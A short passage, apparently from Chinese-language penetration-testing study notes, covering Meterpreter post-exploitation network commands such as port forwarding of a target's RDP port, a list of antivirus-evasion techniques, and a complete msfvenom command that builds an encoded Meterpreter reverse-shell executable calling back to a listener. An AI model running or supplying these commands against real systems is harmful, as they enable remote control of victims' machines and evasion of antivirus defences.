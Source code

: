 网络命令

```c
1.ipconfig：查看目标机器网络接口信息
 
2.portfwd：它是meterpreter自带的端口转发器，用于把目标机器的端口转发到本地端口；假设目标机开放了3389端口，使用如下命令将其转发到本地3456端口：portfwd add -l 3456 -p 3389 -r 192.168.88.110
 
3.rdesktop -u 用户名 -p 密码 ip:端口  连接开启远程桌面的windows系统.
 
4.route：显示目标机器的路由信息.

```

### 六、免杀

```c
1、修改文件md5
	- 添加无效数据(了解Pe结构)
	- 修改资源表
	- 修改字符串
2、修改指令(代码)
3、修改执行流程
4、修改源码
1234567
```

### 七、木马混淆

```sh
msfvenom -l encoders   查看编码器
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.211.55.2 LPORT=4444 -e x86/shikata_ga_nai -f exe > shell.exe
```

# 防暴力破解防御

![image-20201118142110105](75、暴力破解/image-20201118142110105.png)
